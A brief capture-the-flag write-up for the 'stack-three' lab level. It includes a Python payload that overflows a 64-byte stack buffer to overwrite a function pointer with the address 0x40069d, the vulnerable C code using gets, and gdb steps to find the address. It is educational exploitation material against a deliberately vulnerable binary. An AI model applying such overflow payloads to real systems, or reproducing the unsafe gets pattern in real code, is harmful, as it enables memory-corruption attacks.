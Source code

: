 # stack-three
#### Script
```python
import sys 

value = 0x40069d.to_bytes(4,'little')
inject = b'A'* 64 + value 

sys.stdout.buffer.write(inject)
```
#### Analysis
According to the challenge description, we need to overwrite a function pointer on the stack. This function pointer corresponds to the *complete_level* function:
```c
char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

}
```

In the *locals* struct, we have our usual buffer followed by a **volatile int** pointer called *fp*. This function pointer should be overwritten to the *complete_level* address to complete the level.
###### Getting the address
We need to know the memory address the *complete_level* function is located in. We can get this in a variety of ways. 
- Debugger (gdb)
- Objdump 
- Disassemblers (Ghidra, IDA, etc...)

For simplicity, we can just use gdb to get this information by launching gdb on the file and passing over 
	info address complete_level
This gives us the value **0x40069d**. With this, we can use our script to execute the exploit.
```shell
python3 scripts/stack_three.py | ./stack_three
```
